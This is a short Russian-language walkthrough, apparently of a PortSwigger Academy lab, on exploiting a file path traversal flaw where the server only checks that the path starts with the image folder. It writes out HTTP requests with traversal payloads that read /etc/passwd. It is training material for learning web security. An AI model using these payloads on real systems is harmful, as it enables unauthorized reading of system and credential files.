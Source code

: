 При запросах к веб ресурсу обнаружим, что каждая картинка скачивается отдельным GET запросом, и передадим ее в repeater
```
GET /image?filename=/var/www/images/72.jpg
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/3.%20Directory%20traversal/5.%20File%20path%20traversal%2C%20validation%20of%20start%20of%20path/pics%20for%20walktrough/1.png)

Попробуем применить стандартную PathTraversal уязвимость
```
GET /image?filename=../../../../etc/passwd
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/3.%20Directory%20traversal/5.%20File%20path%20traversal%2C%20validation%20of%20start%20of%20path/pics%20for%20walktrough/2.png)
Видим, что у нас ничего не вышло 

Иногда разработчики закладывают такой функционал, чтобы имя файла, заданное пользователем, начиналось с ожидаемой базовой папки, такой как `/var/www/images`. Воспользуемся этим фактором
```
GET /image?filename=/var/www/images/../../../etc/passwd
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/3.%20Directory%20traversal/5.%20File%20path%20traversal%2C%20validation%20of%20start%20of%20path/pics%20for%20walktrough/3.png)
И получим доступ до желанного файла
